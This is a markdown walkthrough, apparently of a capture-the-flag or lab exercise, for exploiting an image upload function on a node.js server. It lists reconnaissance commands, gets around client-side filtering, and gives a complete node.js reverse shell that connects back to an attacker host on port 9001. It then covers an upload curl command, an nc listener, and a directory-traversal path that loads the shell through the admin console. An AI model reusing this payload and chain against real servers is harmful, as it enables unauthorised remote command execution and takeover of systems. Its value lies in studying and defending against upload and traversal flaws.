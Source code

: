 # File Upload Exploit Walkthrough

## 1. Get Server Information
This information may expose what backend language is used. In this case it is node.js

```sh
curl -i -X HEAD 10.10.10.10
curl -i -X OPTIONS
```
## 2. Scan using gobuster
```sh
gobuster dir -u 10.10.10.10 -w wordlist.txt
/Content
/Assets
/Admin
```

## 3. Explore the image upload function
Upon inspecting the page we can see that `upload.js` is responsible for client side filtering. To bypass this we need to examine the request that is sent from javascript.

- Base64 encoded file
- Sent to domain root (/) as a json file
- Intercept request to match headers.

## 4. Upload a malicious payload
The server is using `node.js` so we'll craft a node.js reverse shell.

```js
(function(){
    var net = require('net'),
    cp = require('child_process'),
    sh = cp.spawn('sh',[]);

    var client = new net.Socket();
    client.connect(9001, '10.10.10.10', function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents crash
})();
```

## 5. Upload the malicious file
Backend filtering will change your uploaded file to a jpg. For simplicity i've only included 1 header and left the json file as a variable.

```sh
curl -i -H "Content-Type: application/json" -d "$json" 10.10.10.10 -vvvv
```

## 6. Confirm with gobuster
```sh
gobuster dir -u 10.10.10.10 -w wordlist.txt -x jpg
```

## 7. Start a local listener
On your local machine start a listener for the reverse shell.

```sh
nc -lvnp 9001
```

## 8. Load the shell from the admin console.
The admin console loads from modules. By using directory traversal we can load from another path (/content)

```sh
../content/XXX.jpg
```

This should create a connection back to the attacking machine.
